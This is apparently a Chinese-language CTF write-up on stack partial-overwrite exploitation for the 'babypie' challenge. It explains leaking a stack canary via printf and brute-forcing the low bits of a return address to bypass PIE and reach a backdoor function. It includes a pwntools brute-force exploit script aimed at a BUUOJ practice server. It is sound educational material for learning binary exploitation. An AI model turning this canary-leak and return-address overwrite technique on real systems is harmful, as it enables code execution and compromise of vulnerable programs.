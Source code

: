 # [花式栈溢出]栈上的 partial overwrite

希望能在这几天对Pwn中的栈上的各种利用和其他一些较小的分支做一个收尾，以便全力投入学习堆的相关知识。初步计划是对照ctf-wiki查缺补漏。

## 原理

以下内容摘自ctf-wiki

我们知道, 在开启了随机化（ASLR，PIE）后, 无论高位的地址如何变化，低 12 位的页内偏移始终是固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护。

## babypie

保护全开

![image-20210411191232964](https://i.loli.net/2021/04/11/WRwhoc8nQGambeg.png)

第二个read存在非常明显的栈溢出

![image-20210411191144658](https://i.loli.net/2021/04/11/V9N6o4jGtJ7zrI5.png)

也给出了后门函数

![image-20210411191304494](https://i.loli.net/2021/04/11/fd1iyFZL4arTc8R.png)

为了使这个函数结束能返回到我们的后门函数，再用第二次read覆盖返回地址前，需要用第一个read和printf输出canary的值

可以计算出第一次 read 需要的长度为 0x30 - 0x8 + 1 (**+ 1 是为了覆盖 canary 的最低位为非 0 的值, printf 使用 %s 时, 遇到 \0 结束, 覆盖 canary 低位为非 0 值时, canary 就可以被 printf 打印出来了**)

![image-20210411221116678](https://i.loli.net/2021/04/11/GK5bXvMOVlYQqAj.png)

现在需要控制返回地址到后门函数，我们先看本来的返回地址

![image-20210411221505678](https://i.loli.net/2021/04/11/kbAS6UcfC9HvRmn.png)

如图，我们的后门函数地址为0x555555554A3E，而程序本来的返回地址为0x555555554A23，这里巧合地只有8bit不同，但是普遍情况下，应该有低12bit~16bit不同。尽管可能最多有16bit不同，后门函数的低三位16进制数却总会是0xA3E，就算只有12bit不同，我们也不能只修改低12bit位0xA3E，因为payload发送以字节为单位，不能发送一个半字节，至少也得发送两字节。

总的来说，就是如果覆写低 16 bit 为 `0x?A3E`, 就有一定的几率 get shell，这里覆盖低16bit为0x0A3E

自动化爆破脚本如下，有时即使远端打成功了也会报错（不去深究了），重新打即可。

写脚本的时候也要**注意sendline和send的区别**，此题切莫用sendline，否则回车会覆盖关键位置

```
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
while True:
    p = remote('node3.buuoj.cn', 26235)
    p.recvuntil("Input your Name:\n")
    offset = 0x30 - 8 + 1
    payload1 = b'a' * offset
    p.send(payload1)  # not sendline!
    p.recvuntil('a' * (0x30 - 8 + 1))
    canary = '\0' + p.recv(7)
    p.recvuntil("\n")
    payload2 = 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A'
    p.send(payload2)  # not sendline!
    p.recv(timeout=1)  # don't remove! or can only burp once
    try:
        p.recv(timeout=1)
    except:  # or except EOFError
        p.close()
        continue
```
